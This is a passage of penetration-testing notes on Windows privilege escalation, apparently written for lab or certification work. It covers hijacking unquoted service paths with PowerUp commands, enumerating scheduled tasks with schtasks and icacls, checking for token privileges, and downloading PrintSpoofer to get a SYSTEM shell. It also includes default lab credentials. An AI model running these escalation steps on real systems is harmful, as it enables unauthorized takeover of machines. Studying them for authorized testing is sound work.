 Find possible unquoted services:

```
PS C:\Users\dave> Get-UnquotedService
```

If suitable location found:

```
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

_Default user/pass is john/Password123!

### Scheduled Tasks

Important:

```
- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?
```

Check scheduled tasks:

```
schtasks /query /fo LIST /v
```

Look for non-Windows and System owned tasks.

Check permissions with `icacls` and run possible Service Binary Hijacks or DLL Hijacks.

Use this to look for non system users:

```
schtasks /query /fo LIST /v | findstr "Author:"
```

### Other Exploits

Check for privileges:

```
- SeImpersonatePrivilege
- SeBackupPrivilege
- SeAssignPrimaryToken
- SeLoadDriver
- SeDebug
```

We can use PrintSpoofer in situations where we have code execution as a user with the privilege SeImpersonatePrivilege to execute commands or obtain an interactive shell as NT AUTHORITY/SYSTEM.

Download PrintSpoofer:
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe 
```

Download from Python server:
